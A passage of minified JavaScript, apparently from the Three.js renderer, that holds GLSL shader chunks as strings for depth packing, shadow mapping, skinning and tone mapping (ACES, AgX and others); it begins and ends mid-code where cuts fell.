st1.y;\n\t\tfloat det = max( dot( T, T ), dot( B, B ) );\n\t\tfloat scale = ( det == 0.0 ) ? 0.0 : inversesqrt( det );\n\t\treturn mat3( T * scale, B * scale, N );\n\t}\n#endif",clearcoat_normal_fragment_begin:"#ifdef USE_CLEARCOAT\n\tvec3 clearcoatNormal = nonPerturbedNormal;\n#endif",clearcoat_normal_fragment_maps:"#ifdef USE_CLEARCOAT_NORMALMAP\n\tvec3 clearcoatMapN = texture2D( clearcoatNormalMap, vClearcoatNormalMapUv ).xyz * 2.0 - 1.0;\n\tclearcoatMapN.xy *= clearcoatNormalScale;\n\tclearcoatNormal = normalize( tbn2 * clearcoatMapN );\n#endif",clearcoat_pars_fragment:"#ifdef USE_CLEARCOATMAP\n\tuniform sampler2D clearcoatMap;\n#endif\n#ifdef USE_CLEARCOAT_NORMALMAP\n\tuniform sampler2D clearcoatNormalMap;\n\tuniform vec2 clearcoatNormalScale;\n#endif\n#ifdef USE_CLEARCOAT_ROUGHNESSMAP\n\tuniform sampler2D clearcoatRoughnessMap;\n#endif",iridescence_pars_fragment:"#ifdef USE_IRIDESCENCEMAP\n\tuniform sampler2D iridescenceMap;\n#endif\n#ifdef USE_IRIDESCENCE_THICKNESSMAP\n\tuniform sampler2D iridescenceThicknessMap;\n#endif",opaque_fragment:"#ifdef OPAQUE\ndiffuseColor.a = 1.0;\n#endif\n#ifdef USE_TRANSMISSION\ndiffuseColor.a *= material.transmissionAlpha;\n#endif\ngl_FragColor = vec4( outgoingLight, diffuseColor.a );",packing:"vec3 packNormalToRGB( const in vec3 normal ) {\n\treturn normalize( normal ) * 0.5 + 0.5;\n}\nvec3 unpackRGBToNormal( const in vec3 rgb ) {\n\treturn 2.0 * rgb.xyz - 1.0;\n}\nconst float PackUpscale = 256. / 255.;const float UnpackDownscale = 255. / 256.;const float ShiftRight8 = 1. / 256.;\nconst float Inv255 = 1. / 255.;\nconst vec4 PackFactors = vec4( 1.0, 256.0, 256.0 * 256.0, 256.0 * 256.0 * 256.0 );\nconst vec2 UnpackFactors2 = vec2( UnpackDownscale, 1.0 / PackFactors.g );\nconst vec3 UnpackFactors3 = vec3( UnpackDownscale / PackFactors.rg, 1.0 / PackFactors.b );\nconst vec4 UnpackFactors4 = vec4( UnpackDownscale / PackFactors.rgb, 1.0 / PackFactors.a );\nvec4 packDepthToRGBA( const in float v ) {\n\tif( v <= 0.0 )\n\t\treturn vec4( 0., 0., 0., 0. );\n\tif( v >= 1.0 )\n\t\treturn vec4( 1., 1., 1., 1. );\n\tfloat vuf;\n\tfloat af = modf( v * PackFactors.a, vuf );\n\tfloat bf = modf( vuf * ShiftRight8, vuf );\n\tfloat gf = modf( vuf * ShiftRight8, vuf );\n\treturn vec4( vuf * Inv255, gf * PackUpscale, bf * PackUpscale, af );\n}\nvec3 packDepthToRGB( const in float v ) {\n\tif( v <= 0.0 )\n\t\treturn vec3( 0., 0., 0. );\n\tif( v >= 1.0 )\n\t\treturn vec3( 1., 1., 1. );\n\tfloat vuf;\n\tfloat bf = modf( v * PackFactors.b, vuf );\n\tfloat gf = modf( vuf * ShiftRight8, vuf );\n\treturn vec3( vuf * Inv255, gf * PackUpscale, bf );\n}\nvec2 packDepthToRG( const in float v ) {\n\tif( v <= 0.0 )\n\t\treturn vec2( 0., 0. );\n\tif( v >= 1.0 )\n\t\treturn vec2( 1., 1. );\n\tfloat vuf;\n\tfloat gf = modf( v * 256., vuf );\n\treturn vec2( vuf * Inv255, gf );\n}\nfloat unpackRGBAToDepth( const in vec4 v ) {\n\treturn dot( v, UnpackFactors4 );\n}\nfloat unpackRGBToDepth( const in vec3 v ) {\n\treturn dot( v, UnpackFactors3 );\n}\nfloat unpackRGToDepth( const in vec2 v ) {\n\treturn v.r * UnpackFactors2.r + v.g * UnpackFactors2.g;\n}\nvec4 pack2HalfToRGBA( const in vec2 v ) {\n\tvec4 r = vec4( v.x, fract( v.x * 255.0 ), v.y, fract( v.y * 255.0 ) );\n\treturn vec4( r.x - r.y / 255.0, r.y, r.z - r.w / 255.0, r.w );\n}\nvec2 unpackRGBATo2Half( const in vec4 v ) {\n\treturn vec2( v.x + ( v.y / 255.0 ), v.z + ( v.w / 255.0 ) );\n}\nfloat viewZToOrthographicDepth( const in float viewZ, const in float near, const in float far ) {\n\treturn ( viewZ + near ) / ( near - far );\n}\nfloat orthographicDepthToViewZ( const in float depth, const in float near, const in float far ) {\n\treturn depth * ( near - far ) - near;\n}\nfloat viewZToPerspectiveDepth( const in float viewZ, const in float near, const in float far ) {\n\treturn ( ( near + viewZ ) * far ) / ( ( far - near ) * viewZ );\n}\nfloat perspectiveDepthToViewZ( const in float depth, const in float near, const in float far ) {\n\treturn ( near * far ) / ( ( far - near ) * depth - far );\n}",premultiplied_alpha_fragment:"#ifdef PREMULTIPLIED_ALPHA\n\tgl_FragColor.rgb *= gl_FragColor.a;\n#endif",project_vertex:"vec4 mvPosition = vec4( transformed, 1.0 );\n#ifdef USE_BATCHING\n\tmvPosition = batchingMatrix * mvPosition;\n#endif\n#ifdef USE_INSTANCING\n\tmvPosition = instanceMatrix * mvPosition;\n#endif\nmvPosition = modelViewMatrix * mvPosition;\ngl_Position = projectionMatrix * mvPosition;",dithering_fragment:"#ifdef DITHERING\n\tgl_FragColor.rgb = dithering( gl_FragColor.rgb );\n#endif",dithering_pars_fragment:"#ifdef DITHERING\n\tvec3 dithering( vec3 color ) {\n\t\tfloat grid_position = rand( gl_FragCoord.xy );\n\t\tvec3 dither_shift_RGB = vec3( 0.25 / 255.0, -0.25 / 255.0, 0.25 / 255.0 );\n\t\tdither_shift_RGB = mix( 2.0 * dither_shift_RGB, -2.0 * dither_shift_RGB, grid_position );\n\t\treturn color + dither_shift_RGB;\n\t}\n#endif",roughnessmap_fragment:"float roughnessFactor = roughness;\n#ifdef USE_ROUGHNESSMAP\n\tvec4 texelRoughness = texture2D( roughnessMap, vRoughnessMapUv );\n\troughnessFactor *= texelRoughness.g;\n#endif",roughnessmap_pars_fragment:"#ifdef USE_ROUGHNESSMAP\n\tuniform sampler2D roughnessMap;\n#endif",shadowmap_pars_fragment:"#if NUM_SPOT_LIGHT_COORDS > 0\n\tvarying vec4 vSpotLightCoord[ NUM_SPOT_LIGHT_COORDS ];\n#endif\n#if NUM_SPOT_LIGHT_MAPS > 0\n\tuniform sampler2D spotLightMap[ NUM_SPOT_LIGHT_MAPS ];\n#endif\n#ifdef USE_SHADOWMAP\n\t#if NUM_DIR_LIGHT_SHADOWS > 0\n\t\tuniform sampler2D directionalShadowMap[ NUM_DIR_LIGHT_SHADOWS ];\n\t\tvarying vec4 vDirectionalShadowCoord[ NUM_DIR_LIGHT_SHADOWS ];\n\t\tstruct DirectionalLightShadow {\n\t\t\tfloat shadowIntensity;\n\t\t\tfloat shadowBias;\n\t\t\tfloat shadowNormalBias;\n\t\t\tfloat shadowRadius;\n\t\t\tvec2 shadowMapSize;\n\t\t};\n\t\tuniform DirectionalLightShadow directionalLightShadows[ NUM_DIR_LIGHT_SHADOWS ];\n\t#endif\n\t#if NUM_SPOT_LIGHT_SHADOWS > 0\n\t\tuniform sampler2D spotShadowMap[ NUM_SPOT_LIGHT_SHADOWS ];\n\t\tstruct SpotLightShadow {\n\t\t\tfloat shadowIntensity;\n\t\t\tfloat shadowBias;\n\t\t\tfloat shadowNormalBias;\n\t\t\tfloat shadowRadius;\n\t\t\tvec2 shadowMapSize;\n\t\t};\n\t\tuniform SpotLightShadow spotLightShadows[ NUM_SPOT_LIGHT_SHADOWS ];\n\t#endif\n\t#if NUM_POINT_LIGHT_SHADOWS > 0\n\t\tuniform sampler2D pointShadowMap[ NUM_POINT_LIGHT_SHADOWS ];\n\t\tvarying vec4 vPointShadowCoord[ NUM_POINT_LIGHT_SHADOWS ];\n\t\tstruct PointLightShadow {\n\t\t\tfloat shadowIntensity;\n\t\t\tfloat shadowBias;\n\t\t\tfloat shadowNormalBias;\n\t\t\tfloat shadowRadius;\n\t\t\tvec2 shadowMapSize;\n\t\t\tfloat shadowCameraNear;\n\t\t\tfloat shadowCameraFar;\n\t\t};\n\t\tuniform PointLightShadow pointLightShadows[ NUM_POINT_LIGHT_SHADOWS ];\n\t#endif\n\tfloat texture2DCompare( sampler2D depths, vec2 uv, float compare ) {\n\t\treturn step( compare, unpackRGBAToDepth( texture2D( depths, uv ) ) );\n\t}\n\tvec2 texture2DDistribution( sampler2D shadow, vec2 uv ) {\n\t\treturn unpackRGBATo2Half( texture2D( shadow, uv ) );\n\t}\n\tfloat VSMShadow (sampler2D shadow, vec2 uv, float compare ){\n\t\tfloat occlusion = 1.0;\n\t\tvec2 distribution = texture2DDistribution( shadow, uv );\n\t\tfloat hard_shadow = step( compare , distribution.x );\n\t\tif (hard_shadow != 1.0 ) {\n\t\t\tfloat distance = compare - distribution.x ;\n\t\t\tfloat variance = max( 0.00000, distribution.y * distribution.y );\n\t\t\tfloat softness_probability = variance / (variance + distance * distance );\t\t\tsoftness_probability = clamp( ( softness_probability - 0.3 ) / ( 0.95 - 0.3 ), 0.0, 1.0 );\t\t\tocclusion = clamp( max( hard_shadow, softness_probability ), 0.0, 1.0 );\n\t\t}\n\t\treturn occlusion;\n\t}\n\tfloat getShadow( sampler2D shadowMap, vec2 shadowMapSize, float shadowIntensity, float shadowBias, float shadowRadius, vec4 shadowCoord ) {\n\t\tfloat shadow = 1.0;\n\t\tshadowCoord.xyz /= shadowCoord.w;\n\t\tshadowCoord.z += shadowBias;\n\t\tbool inFrustum = shadowCoord.x >= 0.0 && shadowCoord.x <= 1.0 && shadowCoord.y >= 0.0 && shadowCoord.y <= 1.0;\n\t\tbool frustumTest = inFrustum && shadowCoord.z <= 1.0;\n\t\tif ( frustumTest ) {\n\t\t#if defined( SHADOWMAP_TYPE_PCF )\n\t\t\tvec2 texelSize = vec2( 1.0 ) / shadowMapSize;\n\t\t\tfloat dx0 = - texelSize.x * shadowRadius;\n\t\t\tfloat dy0 = - texelSize.y * shadowRadius;\n\t\t\tfloat dx1 = + texelSize.x * shadowRadius;\n\t\t\tfloat dy1 = + texelSize.y * shadowRadius;\n\t\t\tfloat dx2 = dx0 / 2.0;\n\t\t\tfloat dy2 = dy0 / 2.0;\n\t\t\tfloat dx3 = dx1 / 2.0;\n\t\t\tfloat dy3 = dy1 / 2.0;\n\t\t\tshadow = (\n\t\t\t\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx0, dy0 ), shadowCoord.z ) +\n\t\t\t\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( 0.0, dy0 ), shadowCoord.z ) +\n\t\t\t\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx1, dy0 ), shadowCoord.z ) +\n\t\t\t\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx2, dy2 ), shadowCoord.z ) +\n\t\t\t\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( 0.0, dy2 ), shadowCoord.z ) +\n\t\t\t\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx3, dy2 ), shadowCoord.z ) +\n\t\t\t\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx0, 0.0 ), shadowCoord.z ) +\n\t\t\t\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx2, 0.0 ), shadowCoord.z ) +\n\t\t\t\ttexture2DCompare( shadowMap, shadowCoord.xy, shadowCoord.z ) +\n\t\t\t\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx3, 0.0 ), shadowCoord.z ) +\n\t\t\t\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx1, 0.0 ), shadowCoord.z ) +\n\t\t\t\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx2, dy3 ), shadowCoord.z ) +\n\t\t\t\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( 0.0, dy3 ), shadowCoord.z ) +\n\t\t\t\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx3, dy3 ), shadowCoord.z ) +\n\t\t\t\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx0, dy1 ), shadowCoord.z ) +\n\t\t\t\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( 0.0, dy1 ), shadowCoord.z ) +\n\t\t\t\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx1, dy1 ), shadowCoord.z )\n\t\t\t) * ( 1.0 / 17.0 );\n\t\t#elif defined( SHADOWMAP_TYPE_PCF_SOFT )\n\t\t\tvec2 texelSize = vec2( 1.0 ) / shadowMapSize;\n\t\t\tfloat dx = texelSize.x;\n\t\t\tfloat dy = texelSize.y;\n\t\t\tvec2 uv = shadowCoord.xy;\n\t\t\tvec2 f = fract( uv * shadowMapSize + 0.5 );\n\t\t\tuv -= f * texelSize;\n\t\t\tshadow = (\n\t\t\t\ttexture2DCompare( shadowMap, uv, shadowCoord.z ) +\n\t\t\t\ttexture2DCompare( shadowMap, uv + vec2( dx, 0.0 ), shadowCoord.z ) +\n\t\t\t\ttexture2DCompare( shadowMap, uv + vec2( 0.0, dy ), shadowCoord.z ) +\n\t\t\t\ttexture2DCompare( shadowMap, uv + texelSize, shadowCoord.z ) +\n\t\t\t\tmix( texture2DCompare( shadowMap, uv + vec2( -dx, 0.0 ), shadowCoord.z ),\n\t\t\t\t\t texture2DCompare( shadowMap, uv + vec2( 2.0 * dx, 0.0 ), shadowCoord.z ),\n\t\t\t\t\t f.x ) +\n\t\t\t\tmix( texture2DCompare( shadowMap, uv + vec2( -dx, dy ), shadowCoord.z ),\n\t\t\t\t\t texture2DCompare( shadowMap, uv + vec2( 2.0 * dx, dy ), shadowCoord.z ),\n\t\t\t\t\t f.x ) +\n\t\t\t\tmix( texture2DCompare( shadowMap, uv + vec2( 0.0, -dy ), shadowCoord.z ),\n\t\t\t\t\t texture2DCompare( shadowMap, uv + vec2( 0.0, 2.0 * dy ), shadowCoord.z ),\n\t\t\t\t\t f.y ) +\n\t\t\t\tmix( texture2DCompare( shadowMap, uv + vec2( dx, -dy ), shadowCoord.z ),\n\t\t\t\t\t texture2DCompare( shadowMap, uv + vec2( dx, 2.0 * dy ), shadowCoord.z ),\n\t\t\t\t\t f.y ) +\n\t\t\t\tmix( mix( texture2DCompare( shadowMap, uv + vec2( -dx, -dy ), shadowCoord.z ),\n\t\t\t\t\t\t  texture2DCompare( shadowMap, uv + vec2( 2.0 * dx, -dy ), shadowCoord.z ),\n\t\t\t\t\t\t  f.x ),\n\t\t\t\t\t mix( texture2DCompare( shadowMap, uv + vec2( -dx, 2.0 * dy ), shadowCoord.z ),\n\t\t\t\t\t\t  texture2DCompare( shadowMap, uv + vec2( 2.0 * dx, 2.0 * dy ), shadowCoord.z ),\n\t\t\t\t\t\t  f.x ),\n\t\t\t\t\t f.y )\n\t\t\t) * ( 1.0 / 9.0 );\n\t\t#elif defined( SHADOWMAP_TYPE_VSM )\n\t\t\tshadow = VSMShadow( shadowMap, shadowCoord.xy, shadowCoord.z );\n\t\t#else\n\t\t\tshadow = texture2DCompare( shadowMap, shadowCoord.xy, shadowCoord.z );\n\t\t#endif\n\t\t}\n\t\treturn mix( 1.0, shadow, shadowIntensity );\n\t}\n\tvec2 cubeToUV( vec3 v, float texelSizeY ) {\n\t\tvec3 absV = abs( v );\n\t\tfloat scaleToCube = 1.0 / max( absV.x, max( absV.y, absV.z ) );\n\t\tabsV *= scaleToCube;\n\t\tv *= scaleToCube * ( 1.0 - 2.0 * texelSizeY );\n\t\tvec2 planar = v.xy;\n\t\tfloat almostATexel = 1.5 * texelSizeY;\n\t\tfloat almostOne = 1.0 - almostATexel;\n\t\tif ( absV.z >= almostOne ) {\n\t\t\tif ( v.z > 0.0 )\n\t\t\t\tplanar.x = 4.0 - v.x;\n\t\t} else if ( absV.x >= almostOne ) {\n\t\t\tfloat signX = sign( v.x );\n\t\t\tplanar.x = v.z * signX + 2.0 * signX;\n\t\t} else if ( absV.y >= almostOne ) {\n\t\t\tfloat signY = sign( v.y );\n\t\t\tplanar.x = v.x + 2.0 * signY + 2.0;\n\t\t\tplanar.y = v.z * signY - 2.0;\n\t\t}\n\t\treturn vec2( 0.125, 0.25 ) * planar + vec2( 0.375, 0.75 );\n\t}\n\tfloat getPointShadow( sampler2D shadowMap, vec2 shadowMapSize, float shadowIntensity, float shadowBias, float shadowRadius, vec4 shadowCoord, float shadowCameraNear, float shadowCameraFar ) {\n\t\tfloat shadow = 1.0;\n\t\tvec3 lightToPosition = shadowCoord.xyz;\n\t\t\n\t\tfloat lightToPositionLength = length( lightToPosition );\n\t\tif ( lightToPositionLength - shadowCameraFar <= 0.0 && lightToPositionLength - shadowCameraNear >= 0.0 ) {\n\t\t\tfloat dp = ( lightToPositionLength - shadowCameraNear ) / ( shadowCameraFar - shadowCameraNear );\t\t\tdp += shadowBias;\n\t\t\tvec3 bd3D = normalize( lightToPosition );\n\t\t\tvec2 texelSize = vec2( 1.0 ) / ( shadowMapSize * vec2( 4.0, 2.0 ) );\n\t\t\t#if defined( SHADOWMAP_TYPE_PCF ) || defined( SHADOWMAP_TYPE_PCF_SOFT ) || defined( SHADOWMAP_TYPE_VSM )\n\t\t\t\tvec2 offset = vec2( - 1, 1 ) * shadowRadius * texelSize.y;\n\t\t\t\tshadow = (\n\t\t\t\t\ttexture2DCompare( shadowMap, cubeToUV( bd3D + offset.xyy, texelSize.y ), dp ) +\n\t\t\t\t\ttexture2DCompare( shadowMap, cubeToUV( bd3D + offset.yyy, texelSize.y ), dp ) +\n\t\t\t\t\ttexture2DCompare( shadowMap, cubeToUV( bd3D + offset.xyx, texelSize.y ), dp ) +\n\t\t\t\t\ttexture2DCompare( shadowMap, cubeToUV( bd3D + offset.yyx, texelSize.y ), dp ) +\n\t\t\t\t\ttexture2DCompare( shadowMap, cubeToUV( bd3D, texelSize.y ), dp ) +\n\t\t\t\t\ttexture2DCompare( shadowMap, cubeToUV( bd3D + offset.xxy, texelSize.y ), dp ) +\n\t\t\t\t\ttexture2DCompare( shadowMap, cubeToUV( bd3D + offset.yxy, texelSize.y ), dp ) +\n\t\t\t\t\ttexture2DCompare( shadowMap, cubeToUV( bd3D + offset.xxx, texelSize.y ), dp ) +\n\t\t\t\t\ttexture2DCompare( shadowMap, cubeToUV( bd3D + offset.yxx, texelSize.y ), dp )\n\t\t\t\t) * ( 1.0 / 9.0 );\n\t\t\t#else\n\t\t\t\tshadow = texture2DCompare( shadowMap, cubeToUV( bd3D, texelSize.y ), dp );\n\t\t\t#endif\n\t\t}\n\t\treturn mix( 1.0, shadow, shadowIntensity );\n\t}\n#endif",shadowmap_pars_vertex:"#if NUM_SPOT_LIGHT_COORDS > 0\n\tuniform mat4 spotLightMatrix[ NUM_SPOT_LIGHT_COORDS ];\n\tvarying vec4 vSpotLightCoord[ NUM_SPOT_LIGHT_COORDS ];\n#endif\n#ifdef USE_SHADOWMAP\n\t#if NUM_DIR_LIGHT_SHADOWS > 0\n\t\tuniform mat4 directionalShadowMatrix[ NUM_DIR_LIGHT_SHADOWS ];\n\t\tvarying vec4 vDirectionalShadowCoord[ NUM_DIR_LIGHT_SHADOWS ];\n\t\tstruct DirectionalLightShadow {\n\t\t\tfloat shadowIntensity;\n\t\t\tfloat shadowBias;\n\t\t\tfloat shadowNormalBias;\n\t\t\tfloat shadowRadius;\n\t\t\tvec2 shadowMapSize;\n\t\t};\n\t\tuniform DirectionalLightShadow directionalLightShadows[ NUM_DIR_LIGHT_SHADOWS ];\n\t#endif\n\t#if NUM_SPOT_LIGHT_SHADOWS > 0\n\t\tstruct SpotLightShadow {\n\t\t\tfloat shadowIntensity;\n\t\t\tfloat shadowBias;\n\t\t\tfloat shadowNormalBias;\n\t\t\tfloat shadowRadius;\n\t\t\tvec2 shadowMapSize;\n\t\t};\n\t\tuniform SpotLightShadow spotLightShadows[ NUM_SPOT_LIGHT_SHADOWS ];\n\t#endif\n\t#if NUM_POINT_LIGHT_SHADOWS > 0\n\t\tuniform mat4 pointShadowMatrix[ NUM_POINT_LIGHT_SHADOWS ];\n\t\tvarying vec4 vPointShadowCoord[ NUM_POINT_LIGHT_SHADOWS ];\n\t\tstruct PointLightShadow {\n\t\t\tfloat shadowIntensity;\n\t\t\tfloat shadowBias;\n\t\t\tfloat shadowNormalBias;\n\t\t\tfloat shadowRadius;\n\t\t\tvec2 shadowMapSize;\n\t\t\tfloat shadowCameraNear;\n\t\t\tfloat shadowCameraFar;\n\t\t};\n\t\tuniform PointLightShadow pointLightShadows[ NUM_POINT_LIGHT_SHADOWS ];\n\t#endif\n#endif",shadowmap_vertex:"#if ( defined( USE_SHADOWMAP ) && ( NUM_DIR_LIGHT_SHADOWS > 0 || NUM_POINT_LIGHT_SHADOWS > 0 ) ) || ( NUM_SPOT_LIGHT_COORDS > 0 )\n\tvec3 shadowWorldNormal = inverseTransformDirection( transformedNormal, viewMatrix );\n\tvec4 shadowWorldPosition;\n#endif\n#if defined( USE_SHADOWMAP )\n\t#if NUM_DIR_LIGHT_SHADOWS > 0\n\t\t#pragma unroll_loop_start\n\t\tfor ( int i = 0; i < NUM_DIR_LIGHT_SHADOWS; i ++ ) {\n\t\t\tshadowWorldPosition = worldPosition + vec4( shadowWorldNormal * directionalLightShadows[ i ].shadowNormalBias, 0 );\n\t\t\tvDirectionalShadowCoord[ i ] = directionalShadowMatrix[ i ] * shadowWorldPosition;\n\t\t}\n\t\t#pragma unroll_loop_end\n\t#endif\n\t#if NUM_POINT_LIGHT_SHADOWS > 0\n\t\t#pragma unroll_loop_start\n\t\tfor ( int i = 0; i < NUM_POINT_LIGHT_SHADOWS; i ++ ) {\n\t\t\tshadowWorldPosition = worldPosition + vec4( shadowWorldNormal * pointLightShadows[ i ].shadowNormalBias, 0 );\n\t\t\tvPointShadowCoord[ i ] = pointShadowMatrix[ i ] * shadowWorldPosition;\n\t\t}\n\t\t#pragma unroll_loop_end\n\t#endif\n#endif\n#if NUM_SPOT_LIGHT_COORDS > 0\n\t#pragma unroll_loop_start\n\tfor ( int i = 0; i < NUM_SPOT_LIGHT_COORDS; i ++ ) {\n\t\tshadowWorldPosition = worldPosition;\n\t\t#if ( defined( USE_SHADOWMAP ) && UNROLLED_LOOP_INDEX < NUM_SPOT_LIGHT_SHADOWS )\n\t\t\tshadowWorldPosition.xyz += shadowWorldNormal * spotLightShadows[ i ].shadowNormalBias;\n\t\t#endif\n\t\tvSpotLightCoord[ i ] = spotLightMatrix[ i ] * shadowWorldPosition;\n\t}\n\t#pragma unroll_loop_end\n#endif",shadowmask_pars_fragment:"float getShadowMask() {\n\tfloat shadow = 1.0;\n\t#ifdef USE_SHADOWMAP\n\t#if NUM_DIR_LIGHT_SHADOWS > 0\n\tDirectionalLightShadow directionalLight;\n\t#pragma unroll_loop_start\n\tfor ( int i = 0; i < NUM_DIR_LIGHT_SHADOWS; i ++ ) {\n\t\tdirectionalLight = directionalLightShadows[ i ];\n\t\tshadow *= receiveShadow ? getShadow( directionalShadowMap[ i ], directionalLight.shadowMapSize, directionalLight.shadowIntensity, directionalLight.shadowBias, directionalLight.shadowRadius, vDirectionalShadowCoord[ i ] ) : 1.0;\n\t}\n\t#pragma unroll_loop_end\n\t#endif\n\t#if NUM_SPOT_LIGHT_SHADOWS > 0\n\tSpotLightShadow spotLight;\n\t#pragma unroll_loop_start\n\tfor ( int i = 0; i < NUM_SPOT_LIGHT_SHADOWS; i ++ ) {\n\t\tspotLight = spotLightShadows[ i ];\n\t\tshadow *= receiveShadow ? getShadow( spotShadowMap[ i ], spotLight.shadowMapSize, spotLight.shadowIntensity, spotLight.shadowBias, spotLight.shadowRadius, vSpotLightCoord[ i ] ) : 1.0;\n\t}\n\t#pragma unroll_loop_end\n\t#endif\n\t#if NUM_POINT_LIGHT_SHADOWS > 0\n\tPointLightShadow pointLight;\n\t#pragma unroll_loop_start\n\tfor ( int i = 0; i < NUM_POINT_LIGHT_SHADOWS; i ++ ) {\n\t\tpointLight = pointLightShadows[ i ];\n\t\tshadow *= receiveShadow ? getPointShadow( pointShadowMap[ i ], pointLight.shadowMapSize, pointLight.shadowIntensity, pointLight.shadowBias, pointLight.shadowRadius, vPointShadowCoord[ i ], pointLight.shadowCameraNear, pointLight.shadowCameraFar ) : 1.0;\n\t}\n\t#pragma unroll_loop_end\n\t#endif\n\t#endif\n\treturn shadow;\n}",skinbase_vertex:"#ifdef USE_SKINNING\n\tmat4 boneMatX = getBoneMatrix( skinIndex.x );\n\tmat4 boneMatY = getBoneMatrix( skinIndex.y );\n\tmat4 boneMatZ = getBoneMatrix( skinIndex.z );\n\tmat4 boneMatW = getBoneMatrix( skinIndex.w );\n#endif",skinning_pars_vertex:"#ifdef USE_SKINNING\n\tuniform mat4 bindMatrix;\n\tuniform mat4 bindMatrixInverse;\n\tuniform highp sampler2D boneTexture;\n\tmat4 getBoneMatrix( const in float i ) {\n\t\tint size = textureSize( boneTexture, 0 ).x;\n\t\tint j = int( i ) * 4;\n\t\tint x = j % size;\n\t\tint y = j / size;\n\t\tvec4 v1 = texelFetch( boneTexture, ivec2( x, y ), 0 );\n\t\tvec4 v2 = texelFetch( boneTexture, ivec2( x + 1, y ), 0 );\n\t\tvec4 v3 = texelFetch( boneTexture, ivec2( x + 2, y ), 0 );\n\t\tvec4 v4 = texelFetch( boneTexture, ivec2( x + 3, y ), 0 );\n\t\treturn mat4( v1, v2, v3, v4 );\n\t}\n#endif",skinning_vertex:"#ifdef USE_SKINNING\n\tvec4 skinVertex = bindMatrix * vec4( transformed, 1.0 );\n\tvec4 skinned = vec4( 0.0 );\n\tskinned += boneMatX * skinVertex * skinWeight.x;\n\tskinned += boneMatY * skinVertex * skinWeight.y;\n\tskinned += boneMatZ * skinVertex * skinWeight.z;\n\tskinned += boneMatW * skinVertex * skinWeight.w;\n\ttransformed = ( bindMatrixInverse * skinned ).xyz;\n#endif",skinnormal_vertex:"#ifdef USE_SKINNING\n\tmat4 skinMatrix = mat4( 0.0 );\n\tskinMatrix += skinWeight.x * boneMatX;\n\tskinMatrix += skinWeight.y * boneMatY;\n\tskinMatrix += skinWeight.z * boneMatZ;\n\tskinMatrix += skinWeight.w * boneMatW;\n\tskinMatrix = bindMatrixInverse * skinMatrix * bindMatrix;\n\tobjectNormal = vec4( skinMatrix * vec4( objectNormal, 0.0 ) ).xyz;\n\t#ifdef USE_TANGENT\n\t\tobjectTangent = vec4( skinMatrix * vec4( objectTangent, 0.0 ) ).xyz;\n\t#endif\n#endif",specularmap_fragment:"float specularStrength;\n#ifdef USE_SPECULARMAP\n\tvec4 texelSpecular = texture2D( specularMap, vSpecularMapUv );\n\tspecularStrength = texelSpecular.r;\n#else\n\tspecularStrength = 1.0;\n#endif",specularmap_pars_fragment:"#ifdef USE_SPECULARMAP\n\tuniform sampler2D specularMap;\n#endif",tonemapping_fragment:"#if defined( TONE_MAPPING )\n\tgl_FragColor.rgb = toneMapping( gl_FragColor.rgb );\n#endif",tonemapping_pars_fragment:"#ifndef saturate\n#define saturate( a ) clamp( a, 0.0, 1.0 )\n#endif\nuniform float toneMappingExposure;\nvec3 LinearToneMapping( vec3 color ) {\n\treturn saturate( toneMappingExposure * color );\n}\nvec3 ReinhardToneMapping( vec3 color ) {\n\tcolor *= toneMappingExposure;\n\treturn saturate( color / ( vec3( 1.0 ) + color ) );\n}\nvec3 CineonToneMapping( vec3 color ) {\n\tcolor *= toneMappingExposure;\n\tcolor = max( vec3( 0.0 ), color - 0.004 );\n\treturn pow( ( color * ( 6.2 * color + 0.5 ) ) / ( color * ( 6.2 * color + 1.7 ) + 0.06 ), vec3( 2.2 ) );\n}\nvec3 RRTAndODTFit( vec3 v ) {\n\tvec3 a = v * ( v + 0.0245786 ) - 0.000090537;\n\tvec3 b = v * ( 0.983729 * v + 0.4329510 ) + 0.238081;\n\treturn a / b;\n}\nvec3 ACESFilmicToneMapping( vec3 color ) {\n\tconst mat3 ACESInputMat = mat3(\n\t\tvec3( 0.59719, 0.07600, 0.02840 ),\t\tvec3( 0.35458, 0.90834, 0.13383 ),\n\t\tvec3( 0.04823, 0.01566, 0.83777 )\n\t);\n\tconst mat3 ACESOutputMat = mat3(\n\t\tvec3(  1.60475, -0.10208, -0.00327 ),\t\tvec3( -0.53108,  1.10813, -0.07276 ),\n\t\tvec3( -0.07367, -0.00605,  1.07602 )\n\t);\n\tcolor *= toneMappingExposure / 0.6;\n\tcolor = ACESInputMat * color;\n\tcolor = RRTAndODTFit( color );\n\tcolor = ACESOutputMat * color;\n\treturn saturate( color );\n}\nconst mat3 LINEAR_REC2020_TO_LINEAR_SRGB = mat3(\n\tvec3( 1.6605, - 0.1246, - 0.0182 ),\n\tvec3( - 0.5876, 1.1329, - 0.1006 ),\n\tvec3( - 0.0728, - 0.0083, 1.1187 )\n);\nconst mat3 LINEAR_SRGB_TO_LINEAR_REC2020 = mat3(\n\tvec3( 0.6274, 0.0691, 0.0164 ),\n\tvec3( 0.3293, 0.9195, 0.0880 ),\n\tvec3( 0.0433, 0.0113, 0.8956 )\n);\nvec3 agxDefaultContrastApprox( vec3 x ) {\n\tvec3 x2 = x * x;\n\tvec3 x4 = x2 * x2;\n\treturn + 15.5 * x4 * x2\n\t\t- 40.14 * x4 * x\n\t\t+ 31.96 * x4\n\t\t- 6.868 * x2 * x\n\t\t+ 0.4298 * x2\n\t\t+ 0.1191 * x\n\t\t- 0.00232;\n}\nvec3 AgXToneMapping( vec3 color ) {\n\tconst mat3 AgXInsetMatrix = mat3(\n\t\tvec3( 0.856627153315983, 0.137318972929847, 0.11189821299995 ),\n\t\tvec3( 0.0951212405381588, 0.761241990602591, 0.0767994186031903 ),\n\t\tvec3( 0.0482516061458583, 0.101439036467562, 0.811302368396859 